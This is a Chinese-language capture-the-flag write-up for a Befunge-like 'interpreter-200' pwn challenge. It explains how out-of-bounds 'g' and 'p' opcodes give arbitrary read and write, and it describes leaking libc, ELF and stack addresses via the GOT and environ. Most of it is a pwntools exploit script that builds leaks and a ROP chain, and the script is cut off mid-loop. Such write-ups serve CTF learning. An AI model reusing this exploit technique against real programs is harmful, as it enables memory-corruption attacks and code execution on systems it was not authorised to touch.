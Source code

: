 注意到program数组是`char`，stack数组是`QWARD`，所以pop和push都是`int64`类型，所以漏洞点也比较明显，在主函数中g与p都能越界，这样便可以任意地址读写，布置rop链即可。

```c
case 'g':
    v26 = pop();
    v27 = pop();
    push(program[80 * v26 + v27]);
    break;
case 'p':
    v28 = pop();
    v29 = pop();
    program[80 * v28 + v29] = pop();
    break;
```

这里我们需要泄露很多东西，got表里有`puts_ptr`和`program_ptr`，我们可以泄露`elf_base`和`libc_base`，由于要布置ROP链，也需要拿到一个栈指针，这里也是先拿到libc地址，然后用`environ`变量拿到栈指针。

### 漏洞利用

总体来说在进阶区里还是算比较难的题，逆向和漏洞利用工作量都不小。exp如下

```python
from pwn import *
context(arch = 'amd64', os = 'linux', endian = 'little')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

io = process("./interpreter-200")

#io = remote("220.249.52.134",33610)
#gdb.attach(io,"b *0xE05+0x555555554000")

# 0x202040 -> 0x201F50

gdb.attach(io,"b *0x1203+0x555555554000")

program = "&&g,&&g,&&g,&&g,&&g,&&g,"  # leak puts_addr 

program += "&&g,&&g,&&g,&&g,&&g,&&g," #leak elf_addr 

program = program.ljust(79, " ") + "v\n"
program += "v" + " "*78 + "<\n" 

program += ">&&&*&+g,&&&*&+g,&&&*&+g,&&&*&+g,&&&*&+g,&&&*&+g,".ljust(79, " ") + "v\n"# leak stack_addr
program += "v" + " "*78 + "<\n" 

program += (">" + "&&&&*&+p"*8).ljust(79, " ") + 'v\n'   # ROP exploit
program += "v" + " "*78 + "<\n" 
program += (">" + "&&&&*&+p"*8).ljust(79," ") + 'v\n'
program += "v" + " "*78 + "<\n" 
program += ">" + "&&&&*&+p"*8 + '><'

io.sendline(program.ljust(2000,'@'))

for i in range(6):
  io.sendline(str(i))
  io.sendline("-3")

#for i in range(6):
#  io.sendline(str(i+0x28))
#  io.sendline("-3")

for i in range(-16, -10):
```